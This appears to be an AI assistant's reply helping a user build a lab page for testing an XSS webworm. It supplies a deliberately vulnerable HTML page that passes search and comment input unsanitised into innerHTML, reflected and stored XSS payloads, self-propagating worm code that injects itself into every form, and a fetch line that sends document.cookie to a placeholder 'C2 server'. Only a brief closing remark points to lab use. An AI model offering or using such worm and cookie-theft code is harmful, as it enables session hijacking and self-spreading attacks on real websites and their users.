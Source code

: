 Got it. You need a more **realistic webpage**—something richer with elements like images, forms, buttons, maybe dynamic content—to simulate an environment where your XSS webworm can interact, spread, and potentially manipulate more DOM vectors.

Here's a **semi-realistic vulnerable HTML page** with:

* **Multiple DOM elements** (images, inputs, buttons, links)
* **A vulnerable search bar** (reflected XSS)
* **Image tags** and **event-driven content**
* **A comment section** (persistent-style simulation)
* **Use of `.innerHTML` and `.src` — multiple XSS injection vectors**

---

### 💻 **Enhanced XSS Test Page (Save as `advanced_xss_test.html`)**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>MyBlog - XSS Test Page</title>
    <style>
        body { font-family: Arial, sans-serif; margin: 20px; }
        .comment { border-bottom: 1px solid #ccc; margin-top: 10px; padding: 10px; }
        img { max-width: 300px; }
    </style>
</head>
<body>
    <h1>Welcome to MyBlog</h1>

    <nav>
        <a href="#">Home</a> |
        <a href="#">Articles</a> |
        <a href="#">About</a>
    </nav>

    <section>
        <h2>Photo of the Day</h2>
        <img id="dailyImage" src="https://placekitten.com/400/300" alt="Cute Kitten">
        <p id="imageCaption">Look at this cute kitten!</p>
    </section>

    <section>
        <h2>Search the Blog</h2>
        <form method="GET">
            <input type="text" name="query" placeholder="Search..." />
            <button type="submit">Search</button>
        </form>
        <div id="searchResults"></div>
    </section>

    <section>
        <h2>Leave a Comment</h2>
        <form id="commentForm">
            <input type="text" id="username" placeholder="Your name" required />
            <br><br>
            <textarea id="commentText" placeholder="Your comment" rows="4" cols="50" required></textarea>
            <br><br>
            <button type="submit">Post Comment</button>
        </form>
        <div id="commentsSection">
            <h3>Comments</h3>
        </div>
    </section>

    <footer>
        <p>&copy; 2025 MyBlog. All rights reserved.</p>
    </footer>

    <script>
        // Reflected XSS in search
        const params = new URLSearchParams(window.location.search);
        const searchQuery = params.get("query");
        if (searchQuery) {
            document.getElementById("searchResults").innerHTML =
                `<p>Search results for: <strong>${searchQuery}</strong></p>`;
        }

        // Simulated Persistent XSS via comment form
        document.getElementById("commentForm").addEventListener("submit", function (e) {
            e.preventDefault();
            const username = document.getElementById("username").value;
            const comment = document.getElementById("commentText").value;

            const commentHTML = `
                <div class="comment">
                    <strong>${username}</strong><br>
                    <p>${comment}</p>
                </div>
            `;
            document.getElementById("commentsSection").innerHTML += commentHTML;
        });
    </script>
</body>
</html>
```

---

### 🎯 Injection Points for XSS Worms

| Target                             | Vector                             | Payload Example                             |
| ---------------------------------- | ---------------------------------- | ------------------------------------------- |
| `searchQuery`                      | Reflected XSS                      | `?query=<img src=x onerror="alert('xss')">` |
| `commentText`                      | Persistent XSS Simulation          | `<script>yourWorm()</script>`               |
| `imageCaption` or `dailyImage.src` | DOM injection (image manipulation) | via injected script                         |

---

### 🧪 Tips for Worm Testing

You can simulate self-propagating behavior like this:

```javascript
(function spread() {
    // Harvest all forms on the page
    document.querySelectorAll('form').forEach(form => {
        let input = form.querySelector('input, textarea');
        if (input) {
            input.value = `<script>(${spread.toString()})()</script>`;
            form.submit();
        }
    });
})();
```

Or log to a fake C2 server:

```javascript
fetch('http://yourserver/c2?cookie=' + document.cookie);
```

---

### 🛡️ Final Note

This page **must only be used in a safe lab or local VM**, like:

* Kali Linux / Parrot in VirtualBox
* Docker container (e.g., with Apache or nginx)
* Local webserver (`python3 -m http.server` or `live-server`)

If you want a **real web app vulnerable to XSS**, look into:

* [DVWA (Damn Vulnerable Web Application)](http://www.dvwa.co.uk/)
* [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)

Would you like me to add DOM-based XSS vectors or simulate a vulnerable CMS-style admin panel too?
